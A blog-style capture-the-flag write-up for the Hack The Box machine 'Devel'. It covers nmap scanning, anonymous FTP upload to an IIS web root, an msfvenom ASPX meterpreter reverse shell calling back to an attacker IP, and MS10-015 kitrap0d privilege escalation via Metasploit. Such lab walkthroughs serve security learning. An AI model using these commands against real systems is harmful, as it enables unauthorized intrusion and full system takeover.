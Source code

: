 ```yaml
---
title: Devel
published: true
layout: post
---
```


<br />

---------------
Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits.  

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/Ie03IcEDoi0?si=PrRoQQaHvXo0S6ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.5 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```

![](/assets/Devel/1.png)

<br />
<br />
<br />

There are **2 open ports**:
+ **21/tcp**
+ **80/tcp**

<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
```

![](/assets/Devel/2.png)

<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp Microsoft ftpd**
+ **80/tcp Microsoft IIS httpd 7.5**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.5 -p 21,80 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

This machine is quite easy, we only have to perform some good enumeration and think logically. **FTP will be our best friend** in this machine.

<br />

The first thing that we will notice when checking the performed enumeration is that **FTP allows anonymous login**. We can connect to it by running `ftp anonymous@10.10.10.5` and **providing no password** when asked to. There is no relevant information in these server, however, we can see some files related to IIS, which is found in the web server:

<br />

![](/assets/Devel/3.png)

<br />
<br />
<br />

With this information, we can assume that this directory contains the **files that the web server is representing**, so we can try uploading a test file to see if it works:

![](/assets/Devel/4.png)

<br />

![](/assets/Devel/5.png)

<br />
<br />
<br />

We can now try to see if this **file is accessible from the web server**:

```bash
curl http://10.10.10.5/test.aspx
```

![](/assets/Devel/6.png)

<br />
<br />
<br />

Great, it did work, now we only have to **upload a reverse shell** to gain access to this machine, let's create the **reverse shell**, we just have to **visit the site for the reverse shell to work**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.9 LPORT=4444 --platform windows -f aspx -o revshell.aspx
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 10.10.16.9; set LPORT 4444; run"
curl http://10.10.10.5/revshell.aspx #In another tab
```

![](/assets/Devel/7.png)

<br />

![](/assets/Devel/8.png)

<br />
<br />
<br />

Great, we have obtained a reverse shell as a non-privileged user, however we **can not access the flags yet**.

<br />

---

<br />

### Privilege Escalation

From here, we can start enumerating the machine to see how we can escalate privileges.

<br />

We have some **sensitive privileges** (*SeImpersonatePrivilege* and *SeAssignPrimaryTokenPrivilege*), however I tried using some types of Potatoes but it didn't work.

![](/assets/Devel/9.png)

<br />
<br />
<br />

We can use the **exploit suggester** to see if there is any kernel exploit that we can leverage, so let's **background the Metasploit session** and run it, we will find :

```bash
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![](/assets/Devel/10.png)

<br />
<br />
<br />

We can start trying these exploits one by one, until we end up trying the **MS10-015**, which works:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set lhost tun0
run
```

![](/assets/Devel/11.png)

<br />
<br />
<br />

Great, we have **NT AUTHORITY\SYSTEM privileges**, let's print the flags to finish the machine:

```shell
shell
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

![](/assets/Devel/12.png)

<br />
<br />
<br />
